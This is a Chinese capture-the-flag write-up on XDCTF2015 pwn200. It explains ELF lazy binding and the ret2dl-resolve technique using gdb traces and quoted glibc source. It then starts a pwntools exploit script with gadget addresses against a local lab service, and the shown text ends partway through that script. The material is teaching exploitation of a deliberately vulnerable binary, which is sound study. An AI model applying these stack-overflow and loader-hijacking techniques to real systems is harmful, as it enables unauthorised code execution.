

# 6.1.3 pwn XDCTF2015 pwn200

- [题目复现](#题目复现)
- [ret2dl-resolve 原理及题目解析](#ret2dlresolve-原理及题目解析)
- [漏洞利用](#漏洞利用)
- [参考资料](#参考资料)

[下载文件](../src/writeup/6.1.3_pwn_xdctf2015_pwn200)

## 题目复现

出题人在博客里贴出了源码，如下：

```C
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

使用下面的语句编译：

```text
$ gcc -m32 -fno-stack-protector -no-pie -s pwn200.c
```

checksec 如下：

```text
$ checksec -f a.out
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    FORTIFY  Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No     0               1       a.out
```

在开启 ASLR 的情况下把程序运行起来：

```text
$ socat tcp4-listen:10001,reuseaddr,fork exec:./a.out &
```

这题提供了二进制文件而没有提供 libc.so，而且也默认找不到，在章节 4.8 中我们提供了一种解法，这里我们讲解另一种。

## ret2dl-resolve 原理及题目解析

这种利用的技术是在 2015 年的论文 “How the ELF Ruined Christmas” 中提出的，论文地址在参考资料中。ret2dl-resolve 不需要信息泄露，而是通过动态装载器来直接标识关键函数的位置并调用它们。它可以绕过多种安全缓解措施，包括专门为保护 ELF 数据结构不被破坏而设计的 RELRO。而在 ctf 中，我们也能看到它的身影，通常用于对付无法获得目标系统 libc.so 的情况。

### 延迟绑定

关于动态链接我们在章节 1.5.6 中已经讲过了，这里就重点讲一下动态解析的过程。我们知道，在动态链接中，如果程序没有开启 Full RELRO 保护，则存在延迟绑定的过程，即库函数在第一次被调用时才将函数的真正地址填入 GOT 表以完成绑定。

一个动态链接程序的程序头表中会包含类型为 `PT_DYNAMIC` 的段，它包含了 `.dynamic` 段，结构如下：

```C
typedef struct
{
  Elf32_Sword   d_tag;          /* Dynamic entry type */
  union
    {
      Elf32_Word d_val;         /* Integer value */
      Elf32_Addr d_ptr;         /* Address value */
    } d_un;
} Elf32_Dyn;

typedef struct
{
  Elf64_Sxword  d_tag;          /* Dynamic entry type */
  union
    {
      Elf64_Xword d_val;        /* Integer value */
      Elf64_Addr d_ptr;         /* Address value */
    } d_un;
} Elf64_Dyn;
```

一个 `Elf_Dyn` 是一个键值对，其中 `d_tag` 是键，`d_value` 是值。其中有个例外的条目是 `DT_DEBUG`，它保存了动态装载器内部数据结构的指针。

段表结构如下：

```C
typedef struct
{
  Elf32_Word    sh_name;        /* Section name (string tbl index) */
  Elf32_Word    sh_type;        /* Section type */
  Elf32_Word    sh_flags;       /* Section flags */
  Elf32_Addr    sh_addr;        /* Section virtual addr at execution */
  Elf32_Off sh_offset;      /* Section file offset */
  Elf32_Word    sh_size;        /* Section size in bytes */
  Elf32_Word    sh_link;        /* Link to another section */
  Elf32_Word    sh_info;        /* Additional section information */
  Elf32_Word    sh_addralign;       /* Section alignment */
  Elf32_Word    sh_entsize;     /* Entry size if section holds table */
} Elf32_Shdr;

typedef struct
{
  Elf64_Word    sh_name;        /* Section name (string tbl index) */
  Elf64_Word    sh_type;        /* Section type */
  Elf64_Xword   sh_flags;       /* Section flags */
  Elf64_Addr    sh_addr;        /* Section virtual addr at execution */
  Elf64_Off sh_offset;      /* Section file offset */
  Elf64_Xword   sh_size;        /* Section size in bytes */
  Elf64_Word    sh_link;        /* Link to another section */
  Elf64_Word    sh_info;        /* Additional section information */
  Elf64_Xword   sh_addralign;       /* Section alignment */
  Elf64_Xword   sh_entsize;     /* Entry size if section holds table */
} Elf64_Shdr;
```

具体来看，首先在 write@plt 地址处下断点，然后运行：

```text
gdb-peda$ p write
$1 = {<text variable, no debug info>} 0x8048430 <write@plt>
gdb-peda$ b *0x8048430
Breakpoint 1 at 0x8048430
gdb-peda$ r
Starting program: /home/firmy/Desktop/RE4B/200/a.out
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5bc ("Welcome to XDCTF2015~!\n")
EBX: 0x804a000 --> 0x8049f04 --> 0x1
ECX: 0x2a8c
EDX: 0x3
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0xffffd620 --> 0x1
EBP: 0xffffd638 --> 0x0
ESP: 0xffffd59c --> 0x804861b (add    esp,0x10)
EIP: 0x8048430 (<write@plt>:    jmp    DWORD PTR ds:0x804a01c)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048420 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804a018
   0x8048426 <__libc_start_main@plt+6>: push   0x18
   0x804842b <__libc_start_main@plt+11>:        jmp    0x80483e0
=> 0x8048430 <write@plt>:       jmp    DWORD PTR ds:0x804a01c
 | 0x8048436 <write@plt+6>:     push   0x20
 | 0x804843b <write@plt+11>:    jmp    0x80483e0
 | 0x8048440:   jmp    DWORD PTR ds:0x8049ff0
 | 0x8048446:   xchg   ax,ax
 |->   0x8048436 <write@plt+6>: push   0x20
       0x804843b <write@plt+11>:        jmp    0x80483e0
       0x8048440:       jmp    DWORD PTR ds:0x8049ff0
       0x8048446:       xchg   ax,ax
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xffffd59c --> 0x804861b (add    esp,0x10)
0004| 0xffffd5a0 --> 0x1
0008| 0xffffd5a4 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
0012| 0xffffd5a8 --> 0x17
0016| 0xffffd5ac --> 0x80485a4 (add    ebx,0x1a5c)
0020| 0xffffd5b0 --> 0xffffd5ea --> 0x0
0024| 0xffffd5b4 --> 0xf7ffca64 --> 0x6
0028| 0xffffd5b8 --> 0xf7ffca68 --> 0x3c ('<')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048430 in write@plt ()
gdb-peda$ x/w 0x804a01c
0x804a01c:      0x08048436
```

由于是第一次运行，尚未进行绑定，`0x804a01c` 地址处保存的是 write@plt+6 的地址 `0x8048436`，即跳转到下一条指令。

将 `0x20` 压入栈中，这个数字是导入函数的标识，即一个 ELF_Rel 在 `.rel.plt` 中的偏移：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5bc ("Welcome to XDCTF2015~!\n")
EBX: 0x804a000 --> 0x8049f04 --> 0x1
ECX: 0x2a8c
EDX: 0x3
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0xffffd620 --> 0x1
EBP: 0xffffd638 --> 0x0
ESP: 0xffffd59c --> 0x804861b (add    esp,0x10)
EIP: 0x8048436 (<write@plt+6>:  push   0x20)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048426 <__libc_start_main@plt+6>: push   0x18
   0x804842b <__libc_start_main@plt+11>:        jmp    0x80483e0
   0x8048430 <write@plt>:       jmp    DWORD PTR ds:0x804a01c
=> 0x8048436 <write@plt+6>:     push   0x20
   0x804843b <write@plt+11>:    jmp    0x80483e0
   0x8048440:   jmp    DWORD PTR ds:0x8049ff0
   0x8048446:   xchg   ax,ax
   0x8048448:   add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xffffd59c --> 0x804861b (add    esp,0x10)
0004| 0xffffd5a0 --> 0x1
0008| 0xffffd5a4 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
0012| 0xffffd5a8 --> 0x17
0016| 0xffffd5ac --> 0x80485a4 (add    ebx,0x1a5c)
0020| 0xffffd5b0 --> 0xffffd5ea --> 0x0
0024| 0xffffd5b4 --> 0xf7ffca64 --> 0x6
0028| 0xffffd5b8 --> 0xf7ffca68 --> 0x3c ('<')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048436 in write@plt ()
```

然后跳转到 `0x80483e0`，该地址是 `.plt` 段的开头，即 PLT[0]：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5bc ("Welcome to XDCTF2015~!\n")
EBX: 0x804a000 --> 0x8049f04 --> 0x1
ECX: 0x2a8c
EDX: 0x3
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0xffffd620 --> 0x1
EBP: 0xffffd638 --> 0x0
ESP: 0xffffd598 --> 0x20 (' ')
EIP: 0x804843b (<write@plt+11>: jmp    0x80483e0)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804842b <__libc_start_main@plt+11>:        jmp    0x80483e0
   0x8048430 <write@plt>:       jmp    DWORD PTR ds:0x804a01c
   0x8048436 <write@plt+6>:     push   0x20
=> 0x804843b <write@plt+11>:    jmp    0x80483e0
 | 0x8048440:   jmp    DWORD PTR ds:0x8049ff0
 | 0x8048446:   xchg   ax,ax
 | 0x8048448:   add    BYTE PTR [eax],al
 | 0x804844a:   add    BYTE PTR [eax],al
 |->   0x80483e0:       push   DWORD PTR ds:0x804a004
       0x80483e6:       jmp    DWORD PTR ds:0x804a008
       0x80483ec:       add    BYTE PTR [eax],al
       0x80483ee:       add    BYTE PTR [eax],al
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xffffd598 --> 0x20 (' ')
0004| 0xffffd59c --> 0x804861b (add    esp,0x10)
0008| 0xffffd5a0 --> 0x1
0012| 0xffffd5a4 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
0016| 0xffffd5a8 --> 0x17
0020| 0xffffd5ac --> 0x80485a4 (add    ebx,0x1a5c)
0024| 0xffffd5b0 --> 0xffffd5ea --> 0x0
0028| 0xffffd5b4 --> 0xf7ffca64 --> 0x6
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804843b in write@plt ()
```

```text
$ readelf -S a.out | grep 80483e0
  [12] .plt              PROGBITS        080483e0 0003e0 000060 04  AX  0   0 16
```

接下来就进入 PLT[0] 处的代码：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5bc ("Welcome to XDCTF2015~!\n")
EBX: 0x804a000 --> 0x8049f04 --> 0x1
ECX: 0x2a8c
EDX: 0x3
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0xffffd620 --> 0x1
EBP: 0xffffd638 --> 0x0
ESP: 0xffffd598 --> 0x20 (' ')
EIP: 0x80483e0 (push   DWORD PTR ds:0x804a004)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x80483e0:   push   DWORD PTR ds:0x804a004
   0x80483e6:   jmp    DWORD PTR ds:0x804a008
   0x80483ec:   add    BYTE PTR [eax],al
   0x80483ee:   add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xffffd598 --> 0x20 (' ')
0004| 0xffffd59c --> 0x804861b (add    esp,0x10)
0008| 0xffffd5a0 --> 0x1
0012| 0xffffd5a4 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
0016| 0xffffd5a8 --> 0x17
0020| 0xffffd5ac --> 0x80485a4 (add    ebx,0x1a5c)
0024| 0xffffd5b0 --> 0xffffd5ea --> 0x0
0028| 0xffffd5b4 --> 0xf7ffca64 --> 0x6
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080483e0 in ?? ()
gdb-peda$ x/w 0x804a004
0x804a004:      0xf7ffd900
gdb-peda$ x/w 0x804a008
0x804a008:      0xf7fec370
```

```text
$ readelf -S a.out | grep .got.plt
  [23] .got.plt          PROGBITS        0804a000 001000 000020 04  WA  0   0  4
```

看一下 `.got.plt` 段，所以 `0x804a004` 和 `0x804a008` 分别是 GOT[1] 和 GOT[2]。继续调试：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5bc ("Welcome to XDCTF2015~!\n")
EBX: 0x804a000 --> 0x8049f04 --> 0x1
ECX: 0x2a8c
EDX: 0x3
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0xffffd620 --> 0x1
EBP: 0xffffd638 --> 0x0
ESP: 0xffffd594 --> 0xf7ffd900 --> 0x0
EIP: 0x80483e6 (jmp    DWORD PTR ds:0x804a008)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80483dd:   add    BYTE PTR [eax],al
   0x80483df:   add    bh,bh
   0x80483e1:   xor    eax,0x804a004
=> 0x80483e6:   jmp    DWORD PTR ds:0x804a008
 | 0x80483ec:   add    BYTE PTR [eax],al
 | 0x80483ee:   add    BYTE PTR [eax],al
 | 0x80483f0 <setbuf@plt>:      jmp    DWORD PTR ds:0x804a00c
 | 0x80483f6 <setbuf@plt+6>:    push   0x0
 |->   0xf7fec370 <_dl_runtime_resolve>:        push   eax
       0xf7fec371 <_dl_runtime_resolve+1>:      push   ecx
       0xf7fec372 <_dl_runtime_resolve+2>:      push   edx
       0xf7fec373 <_dl_runtime_resolve+3>:      mov    edx,DWORD PTR [esp+0x10]
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xffffd594 --> 0xf7ffd900 --> 0x0
0004| 0xffffd598 --> 0x20 (' ')
0008| 0xffffd59c --> 0x804861b (add    esp,0x10)
0012| 0xffffd5a0 --> 0x1
0016| 0xffffd5a4 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
0020| 0xffffd5a8 --> 0x17
0024| 0xffffd5ac --> 0x80485a4 (add    ebx,0x1a5c)
0028| 0xffffd5b0 --> 0xffffd5ea --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080483e6 in ?? ()
```

PLT[0] 处的代码将 GOT[1] 的值压入栈中，然后跳转到 GOT[2]。这两个 GOT 表条目有着特殊的含义，动态链接器在开始时给它们填充了特殊的内容：

- GOT[1]：一个指向内部数据结构的指针，类型是 link_map，在动态装载器内部使用，包含了进行符号解析需要的当前 ELF 对象的信息。在它的 `l_info` 域中保存了 `.dynamic` 段中大多数条目的指针构成的一个数组，我们后面会利用它。
- GOT[2]：一个指向动态装载器中 `_dl_runtime_resolve` 函数的指针。

函数使用参数 `link_map_obj` 来获取解析导入函数（使用`reloc_index`参数标识）需要的信息，并将结果写到正确的 GOT 条目中。在 `_dl_runtime_resolve` 解析完成后，控制流就交到了那个函数手里，而下次再调用函数的 plt 时，就会直接进入目标函数中执行。

`_dl-runtime-resolve` 的过程如下图所示：



重定位项使用 Elf_Rel 结构体来描述，存在于 `.rep.plt` 段和 `.rel.dyn` 段中：

```C
typedef uint32_t Elf32_Addr;
typedef uint32_t Elf32_Word;

typedef struct
{
  Elf32_Addr    r_offset;       /* Address */
  Elf32_Word    r_info;         /* Relocation type and symbol index */
} Elf32_Rel;

typedef uint64_t Elf64_Addr;
typedef uint64_t Elf64_Xword;
typedef int64_t  Elf64_Sxword;

typedef struct
{
  Elf64_Addr    r_offset;       /* Address */
  Elf64_Xword   r_info;         /* Relocation type and symbol index */
  Elf64_Sxword  r_addend;       /* Addend */
} Elf64_Rela;
```

32 位程序使用 REL，而 64 位程序使用 RELA。

下面的宏描述了 r_info 是怎样被解析和插入的：

```C
/* How to extract and insert information held in the r_info field.  */

#define ELF32_R_SYM(val)        ((val) >> 8)
#define ELF32_R_TYPE(val)       ((val) & 0xff)
#define ELF32_R_INFO(sym, type)     (((sym) << 8) + ((type) & 0xff))

#define ELF64_R_SYM(i)          ((i) >> 32)
#define ELF64_R_TYPE(i)         ((i) & 0xffffffff)
#define ELF64_R_INFO(sym,type)      ((((Elf64_Xword) (sym)) << 32) + (type))
```

举个例子：

```c
ELF32_R_SYM(Elf32_Rel->r_info) = (Elf32_Rel->r_info) >> 8
```

每个符号使用 Elf_Sym 结构体来描述，存在于 `.dynsym` 段和 `.symtab` 段中，而 `.symtab` 在 strip 之后会被删掉：

```C
typedef struct
{
  Elf32_Word    st_name;        /* Symbol name (string tbl index) */
  Elf32_Addr    st_value;       /* Symbol value */
  Elf32_Word    st_size;        /* Symbol size */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf32_Section st_shndx;       /* Section index */
} Elf32_Sym;

typedef struct
{
  Elf64_Word    st_name;        /* Symbol name (string tbl index) */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf64_Section st_shndx;       /* Section index */
  Elf64_Addr    st_value;       /* Symbol value */
  Elf64_Xword   st_size;        /* Symbol size */
} Elf64_Sym;
```

下面的宏描述了 st_info 是怎样被解析和插入的：

```C
/* How to extract and insert information held in the st_info field.  */

#define ELF32_ST_BIND(val)      (((unsigned char) (val)) >> 4)
#define ELF32_ST_TYPE(val)      ((val) & 0xf)
#define ELF32_ST_INFO(bind, type)   (((bind) << 4) + ((type) & 0xf))

/* Both Elf32_Sym and Elf64_Sym use the same one-byte st_info field.  */
#define ELF64_ST_BIND(val)      ELF32_ST_BIND (val)
#define ELF64_ST_TYPE(val)      ELF32_ST_TYPE (val)
#define ELF64_ST_INFO(bind, type)   ELF32_ST_INFO ((bind), (type))
```

所以 PLT[0] 其实就是调用的以下函数：

```c
_dl_runtime_resolve(link_map_obj, reloc_index)
```

```text
gdb-peda$ disassemble 0xf7fec370
Dump of assembler code for function _dl_runtime_resolve:
   0xf7fec370 <+0>:     push   eax
   0xf7fec371 <+1>:     push   ecx
   0xf7fec372 <+2>:     push   edx
   0xf7fec373 <+3>:     mov    edx,DWORD PTR [esp+0x10]
   0xf7fec377 <+7>:     mov    eax,DWORD PTR [esp+0xc]
   0xf7fec37b <+11>:    call   0xf7fe6080 <_dl_fixup>
   0xf7fec380 <+16>:    pop    edx
   0xf7fec381 <+17>:    mov    ecx,DWORD PTR [esp]
   0xf7fec384 <+20>:    mov    DWORD PTR [esp],eax
   0xf7fec387 <+23>:    mov    eax,DWORD PTR [esp+0x4]
   0xf7fec38b <+27>:    ret    0xc
End of assembler dump.
```

该函数在 `glibc/sysdeps/i386/dl-trampoline.S` 中用汇编实现，先保存寄存器，然后将两个值分别传入寄存器，调用 `_dl_fixup`，最后恢复寄存器：

```text
gdb-peda$ x/w $esp+0x10
0xffffd598:     0x00000020
gdb-peda$ x/w $esp+0xc
0xffffd594:     0xf7ffd900
```

还记得这两个值吗，一个是在 `<write@plt+6>:     push   0x20` 中压入的偏移量，一个是 PLT[0] 中 `push   DWORD PTR ds:0x804a004` 压入的 GOT[1]。

函数 `_dl_fixup(struct link_map *l, ElfW(Word) reloc_arg)`，其参数分别由寄存器 `eax` 和 `edx` 提供。继续调试：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xf7ffd900 --> 0x0
EBX: 0x804a000 --> 0x8049f04 --> 0x1
ECX: 0x2a8c
EDX: 0x20 (' ')
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0xffffd620 --> 0x1
EBP: 0xffffd638 --> 0x0
ESP: 0xffffd588 --> 0x3
EIP: 0xf7fec37b (<_dl_runtime_resolve+11>:      call   0xf7fe6080 <_dl_fixup>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7fec372 <_dl_runtime_resolve+2>:  push   edx
   0xf7fec373 <_dl_runtime_resolve+3>:  mov    edx,DWORD PTR [esp+0x10]
   0xf7fec377 <_dl_runtime_resolve+7>:  mov    eax,DWORD PTR [esp+0xc]
=> 0xf7fec37b <_dl_runtime_resolve+11>: call   0xf7fe6080 <_dl_fixup>
   0xf7fec380 <_dl_runtime_resolve+16>: pop    edx
   0xf7fec381 <_dl_runtime_resolve+17>: mov    ecx,DWORD PTR [esp]
   0xf7fec384 <_dl_runtime_resolve+20>: mov    DWORD PTR [esp],eax
   0xf7fec387 <_dl_runtime_resolve+23>: mov    eax,DWORD PTR [esp+0x4]
Guessed arguments:
arg[0]: 0x3
arg[1]: 0x2a8c
arg[2]: 0xffffd5bc ("Welcome to XDCTF2015~!\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd588 --> 0x3
0004| 0xffffd58c --> 0x2a8c
0008| 0xffffd590 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
0012| 0xffffd594 --> 0xf7ffd900 --> 0x0
0016| 0xffffd598 --> 0x20 (' ')
0020| 0xffffd59c --> 0x804861b (add    esp,0x10)
0024| 0xffffd5a0 --> 0x1
0028| 0xffffd5a4 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xf7fec37b in _dl_runtime_resolve () from /lib/ld-linux.so.2
gdb-peda$ s
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5bc ("Welcome to XDCTF2015~!\n")
EBX: 0x804a000 --> 0x8049f04 --> 0x1
ECX: 0x2a8c
EDX: 0x3
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0xffffd620 --> 0x1
EBP: 0xffffd638 --> 0x0
ESP: 0xffffd59c --> 0x804861b (add    esp,0x10)
EIP: 0xf7ea3100 (<write>:       push   esi)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7ea30fb:  xchg   ax,ax
   0xf7ea30fd:  xchg   ax,ax
   0xf7ea30ff:  nop
=> 0xf7ea3100 <write>:  push   esi
   0xf7ea3101 <write+1>:        push   ebx
   0xf7ea3102 <write+2>:        sub    esp,0x14
   0xf7ea3105 <write+5>:        mov    ebx,DWORD PTR [esp+0x20]
   0xf7ea3109 <write+9>:        mov    ecx,DWORD PTR [esp+0x24]
[------------------------------------stack-------------------------------------]
0000| 0xffffd59c --> 0x804861b (add    esp,0x10)
0004| 0xffffd5a0 --> 0x1
0008| 0xffffd5a4 --> 0xffffd5bc ("Welcome to XDCTF2015~!\n")
0012| 0xffffd5a8 --> 0x17
0016| 0xffffd5ac --> 0x80485a4 (add    ebx,0x1a5c)
0020| 0xffffd5b0 --> 0xffffd5ea --> 0x0
0024| 0xffffd5b4 --> 0xf7ffca64 --> 0x6
0028| 0xffffd5b8 --> 0xf7ffca68 --> 0x3c ('<')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xf7ea3100 in write () from /usr/lib32/libc.so.6
```

即使我们使用单步进入，也不能调试 `_dl_fixup`，它直接就执行完成并跳转到 write 函数了，而此时，GOT 的地址已经被覆盖为实际地址：

```text
gdb-peda$ x/w 0x804a01c
0x804a01c:      0xf7ea3100
```

再强调一遍：fixup 是通过寄存器取参数的，这似乎违背了 32 位程序的调用约定，但它就是这样，上面 gdb 中显示的参数是错误的，该函数对程序员来说是透明的，所以会尽量少用栈去做操作。

既然不能调试，直接看代码吧，在 `glibc/elf/dl-runtime.c` 中：

```C
DL_FIXUP_VALUE_TYPE
attribute_hidden __attribute ((noinline)) ARCH_FIXUP_ATTRIBUTE
_dl_fixup (
# ifdef ELF_MACHINE_RUNTIME_FIXUP_ARGS
	   ELF_MACHINE_RUNTIME_FIXUP_ARGS,
# endif
	   struct link_map *l, ElfW(Word) reloc_arg)
{
  // 分别获取动态链接符号表和动态链接字符串表的基址
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  // 通过参数 reloc_arg 计算重定位入口，这里的 DT_JMPREL 即 .rel.plt，reloc_offset 即 reloc_arg
  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
  
  // 根据函数重定位表中的动态链接符号表索引，即 reloc->r_info，获取函数在动态链接符号表中对应的条目
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

  /* Sanity check that we're really looking at a PLT relocation.  */
  assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

   /* Look up the target symbol.  If the normal lookup rules are not
      used don't look in the global scope.  */
  if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
    {
      const struct r_found_version *version = NULL;

      if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
	{
	  const ElfW(Half) *vernum =
	    (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
	  ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
	  version = &l->l_versions[ndx];
	  if (version->hash == 0)
	    version = NULL;
	}

      /* We need to keep the scope around so do some locking.  This is
	 not necessary for objects which cannot be unloaded or when
	 we are not using any threads (yet).  */
      int flags = DL_LOOKUP_ADD_DEPENDENCY;
      if (!RTLD_SINGLE_THREAD_P)
	{
	  THREAD_GSCOPE_SET_FLAG ();
	  flags |= DL_LOOKUP_GSCOPE_LOCK;
	}

#ifdef RTLD_ENABLE_FOREIGN_CALL
      RTLD_ENABLE_FOREIGN_CALL;
#endif
      // 根据 strtab+sym->st_name 在字符串表中找到函数名，然后进行符号查找获取 libc 基址 result
      result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,
				    version, ELF_RTYPE_CLASS_PLT, flags, NULL);

      /* We are done with the global scope.  */
      if (!RTLD_SINGLE_THREAD_P)
	THREAD_GSCOPE_RESET_FLAG ();

#ifdef RTLD_FINALIZE_FOREIGN_CALL
      RTLD_FINALIZE_FOREIGN_CALL;
#endif

      /* Currently result contains the base load address (or link map)
	 of the object that defines sym.  Now add in the symbol
   offset.  */

      // 将要解析的函数的偏移地址加上 libc 基址，得到函数的实际地址
      value = DL_FIXUP_MAKE_VALUE (result,
				   sym ? (LOOKUP_VALUE_ADDRESS (result)
					  + sym->st_value) : 0);
    }
  else
    {
      /* We already found the symbol.  The module (and therefore its load
	 address) is also known.  */
      value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
      result = l;
    }

  /* And now perhaps the relocation addend.  */
  value = elf_machine_plt_value (l, reloc, value);

  // 将已经解析完成的函数地址写入相应的 GOT 表中
  if (sym != NULL
      && __builtin_expect (ELFW(ST_TYPE) (sym->st_info) == STT_GNU_IFUNC, 0))
    value = elf_ifunc_invoke (DL_FIXUP_VALUE_ADDR (value));

  /* Finally, fix up the plt itself.  */
  if (__glibc_unlikely (GLRO(dl_bind_not)))
    return value;

  return elf_machine_fixup_plt (l, result, refsym, sym, reloc, rel_addr, value);
}
```

### 攻击

关于延迟绑定的攻击，在于强迫动态装载器解析请求的函数。


- 图a中，因为动态转载器是从 `.dynamic` 段的 `DT_STRTAB` 条目中获得 `.dynstr` 段的地址的，而 `DT_STRTAB` 条目的位置已知，默认情况下也可写。所以攻击者能够改写 `DT_STRTAB` 条目的内容，欺骗动态装载器，让它以为 `.dynstr` 段在 `.bss` 段中，并在那里伪造一个假的字符串表。当它尝试解析 printf 时会使用不同的基地址来寻找函数名，最终执行的是 execve。这种方式非常简单，但仅当二进制程序的 `.dynamic` 段可写时有效。
- 图b中，我们已经知道 `_dl_runtime_resolve` 的第二个参数是 Elf_Rel 条目在 `.rel.plt` 段中的偏移，动态装载器将这个值加上 `.rel.plt` 的基址来得到目标结构体的绝对位置。然后当传递给 `_dl_runtime_resolve` 的参数 `reloc_index` 超出了 `.rel.plt` 段，并最终落在 `.bss` 段中时，攻击者可以在该位置伪造了一个 `Elf_Rel` 结构，并填写 `r_offset` 的值为一个可写的内存地址来将解析后的函数地址写在那里，同理 `r_info` 也会是一个将动态装载器导向到攻击者控制内存的下标。这个下标就指向一个位于它后面的 `Elf_Sym` 结构，而 `Elf_Sym` 结构中的 `st_name` 同样超出了 `.dynsym` 段。这样这个符号就会包含一个相对于 `.dynstr` 地址足够大的偏移使其能够达到这个符号之后的一段内存，而那段内存里保存着这个将要调用的函数的名称。

还记得我们前面说过的 GOT[1]，它是一个 link_map 类型的指针，其 `l_info` 域中有一个包含 `.dynmic` 段中所有条目构成的数组。动态链接器就是利用这些指针来定位符号解析过程中使用的对象的。通过覆盖这个 link\_map 的一部分，就能够将 `l_info` 域中的 `DT_STRTAB` 条目指向一个特意制造的动态条目，那里则指向一个假的动态字符串表。


### pwn200

获得了 re2dl-resolve 所需的所有知识，下面我们来分析题目。

首先触发栈溢出漏洞，偏移为 112：

```text
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112
```

根据理论知识及对二进制文件的分析，我们需要一个 read 函数用于读入后续的 payload 和伪造的各种表，一个 write 函数用于验证每一步的正确性，最后将 write 换成 system，就能得到 shell 了。

```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./a.out')
io = remote('127.0.0.1', 10001)
io.recv()

pppr_addr      = 0x08048699     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x0804869b     # pop ebp ; ret
leave_ret_addr = 0x080484b6     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
